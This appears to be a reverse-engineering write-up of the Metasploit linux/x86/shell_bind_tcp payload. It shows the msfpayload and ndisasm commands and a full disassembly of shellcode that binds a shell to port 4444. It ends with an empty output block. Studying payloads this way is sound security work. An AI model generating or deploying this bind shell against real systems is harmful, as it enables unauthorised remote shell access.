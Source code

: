 ## Metasploit Shellcode Analysis (shell_bind_tcp)

Payload:
linux/x86/shell_bind_tcp

Description:
Listen for a connection over IPv4 and spawn a command shell

Initial disassembly of payload:
Using metasploit to provide the payload for analysis the following will download and disassemble it.
```bash
$ sudo msfpayload -p linux/x86/shell_bind_tcp R | ndisasm -u –
```
```nasm	
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  5B                pop ebx
00000010  5E                pop esi
00000011  52                push edx
00000012  680200115C        push dword 0x5c110002
00000017  6A10              push byte +0x10
00000019  51                push ecx
0000001A  50                push eax
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
00000020  CD80              int 0x80
00000022  894104            mov [ecx+0x4],eax
00000025  B304              mov bl,0x4
00000027  B066              mov al,0x66
00000029  CD80              int 0x80
0000002B  43                inc ebx
0000002C  B066              mov al,0x66
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```
Initial analysis of payload with libemu:
Using libemu to discover what is the task of the shellcode. The following command will provide a very verbose trace of execution, the output from which will be used in shortened form below.
```bash
$ sudo msfpayload -p linux/x86/shell_bind_tcp R | sctest -vvv -Ss 1000000
```
```c	
```